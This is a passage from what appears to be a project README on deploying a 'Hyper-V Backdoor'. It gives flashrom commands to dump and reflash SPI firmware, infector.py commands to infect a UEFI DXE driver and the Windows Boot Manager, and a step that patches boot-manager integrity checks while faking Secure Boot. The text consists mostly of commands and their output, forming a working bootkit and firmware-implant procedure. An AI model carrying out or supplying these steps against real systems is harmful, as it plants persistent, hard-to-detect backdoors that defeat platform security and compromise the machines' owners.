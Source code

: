 It’s more convenient to use SOIC8 test clip than probe hook clips, but very often there’s not enough free space around the chip to place test clip. Flash chip must be connected to the channel A of FT2232 Mini Module by the following scheme:

<img src="https://raw.githubusercontent.com/Cr4sh/s6_pcie_microblaze/master/docs/images/spi_wiring.png" width="542">

Now you can read flash chip contents using Flashrom:

```
> flashrom -p ft2232_spi:type=2232H,port=A –r firmware.bin
```

After that you need to open dumped firmware in UEFITool, locate arbitrary UEFI DXE driver to infect and extract its PE32 image section from the firmware image:

<img src="https://raw.githubusercontent.com/Cr4sh/s6_pcie_microblaze/master/docs/images/uefi_tool.png" width="721">

For example, I picked `Bds.efi` DXE driver responsible for boot device selection as pretty much suitable one. Then you can infect extracted driver with Hyper-V Backdoor using `infector.py` program:

```
> python infector.py --dxe-driver DmaBackdoorHv_X64.efi --infect Bds.efi --output Bds_infected.efi
```

After that you have to replace original driver image with `Bds_infected.efi` one in UEFITool, save resulting firmware image and flash it back into the chip:

```
> flashrom -p ft2232_spi:type=2232H,port=A –w firmware_infected.bin
```

## Deploying the backdoor using Windows boot manager infection

In case when you don't have any specialized hardware and also when signed Kaspersky bootloader can't be used on your system with Secure Boot enabled you can just disable Secure Boot and deploy Hyper-V Backdoor using Windows Boot Manager image file infection. In this case Hyper-V Backdoor driver will emulate enabled Secure Boot by hooking of UEFI runtime functions so infected system will able to load all virtualization-based security features just as usual.  

To infect Windows Boot Manager you have to perform the following steps.  

Mount EFI system partition where Windows Boot Manager image file is stored:

```
C:\> mountvol S: /S
```

Backup original image file:

```
C:\> copy S:\EFI\Microsoft\Boot\bootmgfw.efi S:\EFI\Microsoft\Boot\bootmgfw_orig.efi
```

Infect original image file with Hyper-V Backdoor:

```
C:\> python .\infector.py --patch-integrity-checks --dxe-driver .\DmaBackdoorHv_X64.efi ^ 
     --infect S:\EFI\Microsoft\Boot\bootmgfw_orig.efi ^
     --output S:\EFI\Microsoft\Boot\bootmgfw.efi

[+] Target image to infect: S:\EFI\Microsoft\Boot\bootmgfw_orig.efi
[+] DXE driver: .\DmaBackdoorHv_X64.efi
[+] Output file: S:\EFI\Microsoft\Boot\bootmgfw.efi
Original entry point RVA is 0x0001fbd0
Original .reloc virtual size is 0x00000d80
Original image size is 0x001bf000
Characteristics of .reloc section was changed to RWX
New entry point RVA is 0x001bfe44
New .reloc virtual size is 0x000040a0
New image size is 0x001c20a0
[+] bootmgr!BmFwVerifySelfIntegrity() signature found at offset 0x0002a25c
```